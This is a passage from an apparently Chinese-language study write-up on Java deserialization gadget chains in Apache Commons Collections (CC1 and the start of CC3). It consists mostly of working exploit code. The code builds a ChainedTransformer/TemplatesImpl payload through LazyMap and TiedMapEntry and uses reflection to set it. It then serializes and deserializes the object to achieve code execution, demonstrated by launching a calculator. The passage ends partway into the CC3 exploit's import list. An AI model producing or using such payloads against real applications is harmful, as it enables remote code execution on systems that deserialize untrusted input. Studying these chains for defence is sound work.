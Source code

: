 ```java=
                new ConstantTransformer(templates),  
 new InvokerTransformer("newTransformer", null, null)  
        };  
 ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);  
 HashMap<Object, Object> hashMap = new HashMap<>();  
 Map lazyMap = LazyMap.decorate(hashMap, new ConstantTransformer("five")); // 防止在反序列化前弹计算器  
 TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "key");  
 HashMap<Object, Object> expMap = new HashMap<>();  
 expMap.put(tiedMapEntry, "value");  
 lazyMap.remove("key");  
  
 // 在 put 之后通过反射修改值  
 Class<LazyMap> lazyMapClass = LazyMap.class;  
 Field factoryField = lazyMapClass.getDeclaredField("factory");  
 factoryField.setAccessible(true);  
 factoryField.set(lazyMap, chainedTransformer);  
  
 serialize(expMap);  
 unserialize("ser.bin");  
 }  
    public static void serialize(Object obj) throws IOException {  
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));  
 oos.writeObject(obj);  
 }  
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException{  
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));  
 Object obj = ois.readObject();  
 return obj;  
 }  
}
```
运行之后就可以弹计算器

## CC3 链
不多说声明，看芜师傅的文章就可以了
### CC3 链分析

### CC3 链 EXP
#### CC1 链作为前半部分
```java=
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;  
import org.apache.commons.collections.Transformer;  
import org.apache.commons.collections.functors.ChainedTransformer;  
import org.apache.commons.collections.functors.ConstantTransformer;  
import org.apache.commons.collections.functors.InstantiateTransformer;  
import org.apache.commons.collections.functors.InvokerTransformer;  
import org.apache.commons.collections.map.LazyMap;  
  
import javax.xml.transform.Templates;  
import java.io.*;  
import java.lang.reflect.Constructor;  
import java.lang.reflect.Field;  
import java.lang.reflect.InvocationHandler;  
import java.lang.reflect.Proxy;  
import java.nio.file.Files;  
import java.nio.file.Paths;  
import java.util.HashMap;  
import java.util.Map;  
  
```